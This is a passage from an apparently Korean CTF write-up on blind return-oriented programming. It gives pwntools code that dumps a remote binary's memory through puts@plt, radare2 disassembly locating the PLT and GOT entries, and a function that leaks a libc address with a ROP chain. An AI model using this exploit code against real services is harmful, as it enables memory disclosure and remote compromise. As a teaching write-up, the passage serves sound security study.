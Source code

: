 ```python
        payload += p64(now)
        payload += p64(puts_plt)
        payload += p64(stop_gadget)

        r = remote(ip,port,level='error')
        r.recvline()
        r.sendline(payload)
        data = r.recv(timeout=0.5)
        r.close()
        try:
            data = data[:data.index('nWelCome')]
        except ValueError as e:
            data = data

        if len(data)==0:
            data='x00'
        dump += data
        now += len(data)

    with open('memory.dump','wb') as f:
        f.write(dump)

    p.success('Done')
```

radare2로 분석 시 puts의 plt 주소(0x400560) 및 got 주소(0x400566 + 0x200ab2)를 알 수 있다.

```
root@bs-virtual-machine:~/pwnable# r2 -B 0x400000 memory.dump 
Warning: read (shdr) at 0x1b30
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
[0x004005c0]> pd 10 @ 0x400555
            0x00400555    00ff         add bh, bh
            0x00400557    25b40a2000   and eax, 0x200ab4
            0x0040055c    0f1f4000     nop [rax]
            0x00400560    ff25b20a2000 jmp qword [rip+0x200ab2]
            0x00400566    6800000000   push 0x0
            0x0040056b    e9e0ffffff   jmp 0x400550
            0x00400570    ff25aa0a2000 jmp qword [rip+0x200aaa]
            0x00400576    6801000000   push 0x1 ; 0x00000001 
            0x0040057b    e9d0ffffff   jmp 0x400550
            0x00400580    ff25a20a2000 jmp qword [rip+0x200aa2]
```

### **Leak Address**

puts@got 영역에 저장된 libc address를 추출할 수 있다.

```python
def leak_libc(r,size,stop_gadget,rdi_ret,puts_plt,puts_got):
    payload = ''
    payload += "A"*size
    payload += p64(rdi_ret)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(stop_gadget)

    r.recvline()
    r.sendline(payload)
    leak_addr = r.recvuntil('nWelCome my friend,Do you know password?n',drop=True)
    leak_addr = u64(leak_addr.ljust(8,'x00'))
    return leak_addr
```
